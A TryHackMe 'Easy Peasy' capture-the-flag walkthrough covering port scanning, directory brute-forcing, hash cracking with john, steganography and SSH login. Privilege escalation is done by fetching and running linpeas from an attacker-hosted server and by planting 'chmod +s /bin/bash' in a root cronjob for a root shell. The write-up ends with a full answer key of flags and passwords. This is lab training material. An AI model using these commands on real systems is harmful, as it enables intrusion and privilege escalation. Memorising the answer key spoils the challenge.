---


# Easy Peasy — TryHackMe Writeup



### Challange:
`https://tryhackme.com/room/easypeasyctf`

---

## 1. Reconnaissance

We start by scanning the target machine using Nmap to identify open ports, services, and versions.

```bash
nmap -A -vvv -p- 10.48.170.157 -oN nmap_scan
````

### Explanation

- `-A` → Enables OS detection, version detection, scripts, traceroute
- `-p-` → Scans all 65535 ports
- `-vvv` → Verbose output
- `-oN` → Saves output to file
    
```
# Nmap 7.98 scan initiated Fri Mar 20 14:34:12 2026 as: /usr/lib/nmap/nmap --privileged -A -vvv -p- -oN nmap_scan 10.48.170.157
Nmap scan report for 10.48.170.157
Host is up, received echo-reply ttl 62 (0.13s latency).
Scanned at 2026-03-20 14:34:13 EDT for 180s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON         VERSION
80/tcp    open  http    syn-ack ttl 62 nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D
65524/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
```
### Result

|Port|Service|Version|
|---|---|---|
|80|HTTP|nginx 1.16.1|
|6498|SSH|OpenSSH 7.6|
|65524|HTTP|Apache 2.4.43|

- Total open ports: **3**
    
- Highest port (65524) is running **Apache**
    

  


---

## 2. Web Enumeration

We enumerate directories on the web server using Gobuster.

```bash
gobuster dir \
-u http://10.48.170.157/ \
-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
-o page_80
```

### Explanation

- `dir` → Directory brute-force mode
    
- `-u` → Target URL
    
- `-w` → Wordlist
    
- `-o` → Output file
    

### Result


```text
/hidden
```



---

## 3. Robots.txt Analysis

Checking `robots.txt` often reveals hidden paths or clues.



```text
User-Agent:*
Disallow:/

User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
```

### Explanation

- The unusual `User-Agent` looks like an **MD5 hash**
    
- Crack it using an online MD5 tool
    

### Result

```text
flag{1m_s3c0nd_fl4g}
```



---

## 4. Exploring Hidden Directory

Navigate to:

```text
/hidden/whatever/
```



### Hidden Base64 Flag

```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

Decode it:

```bash
echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d
```

### Result

```text
flag{f1rs7_fl4g}
```

---

## 5. Apache Enumeration (Port 65524)

Access the service running on port 65524 and view page source.

```text
http://10.48.170.157:65524/
```



### Result

```text
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

---

## 6. Discovering Hidden Path

Further inspection reveals:






```text
/n0th1ng3ls3m4tt3r
```

This is another hidden directory.



```
940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

---

## 7. Hash Cracking (GOST)

```
Hey,

This is the hint you’re looking for: GOST Hash john --wordlist=easypeasy.txt --format=gost hash (optional* Delete duplicated lines,Compare easypeasy.txt to rockyou.txt and delete same words)

Let me know if you want any help.
```
### Preparation

Remove duplicate entries from the wordlist:

```bash
sort easypeasy.txt | uniq > clean.txt
```

### Crack Hash

```bash
john --wordlist=clean.txt --format=gost hash
```



### Result

```text
mypasswordforthatjob
```

---

## 8. Steganography

Download the image from the hidden directory:

```bash
wget http://10.48.170.157:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
```

Extract hidden data:

```bash
steghide extract -sf binarycodepixabay.jpg
```

### Extracted Data

```text
cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

Convert binary to text:

```text
iconvertedmypasswordtobinary
```

---

## 9. SSH Access

Login using extracted credentials:

```bash
ssh boring@10.48.170.157 -p 6498
```

---

## 10. User Flag

```bash
cat user.txt
```

Output:

```text
synt{a0jvgf33zfa0ez4y}
```

### Explanation

- This is encoded using **ROT13**
    

Decode it:

```text
flag{n0wits33msn0rm4l}
```

---

## 11. Privilege Escalation

### Transfer LinPEAS

```bash
python3 -m http.server
wget http://IP:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



### Finding

A cronjob runs as root:

```text
* * * * * root cd /var/www/ && sudo bash .mysecretcronjob.sh
```

### Exploitation

The script is writable:

```bash
cd /var/www/
nano .mysecretcronjob.sh
```

Add:

```bash
chmod +s /bin/bash
```

---

## 12. Root Access

Check SUID bit:

```bash
ls -l /bin/bash
```

```text
-rwsr-sr-x
```

Spawn root shell:

```bash
bash -p
```

---

## 13. Root Flag

```bash
cat /root/root.txt
```

### Result

```text
flag{63a9f0ea7bb98050796b649e85481845}
```




---

## Final Answers

|Question|Answer|
|---|---|
|Open ports|3|
|Nginx version|1.16.1|
|Highest port service|Apache|
|Flag 1|flag{f1rs7_fl4g}|
|Flag 2|flag{1m_s3c0nd_fl4g}|
|Flag 3|flag{9fdafbd64c47471a8f54cd3fc64cd312}|
|Hidden directory|/n0th1ng3ls3m4tt3r|
|Cracked password|mypasswordforthatjob|
|SSH password|iconvertedmypasswordtobinary|
|User flag|flag{n0wits33msn0rm4l}|
|Root flag|flag{63a9f0ea7bb98050796b649e85481845}|

---
## 🧑‍💻 Author

Ghost- Cybersecurity Learner & CTF Player

---
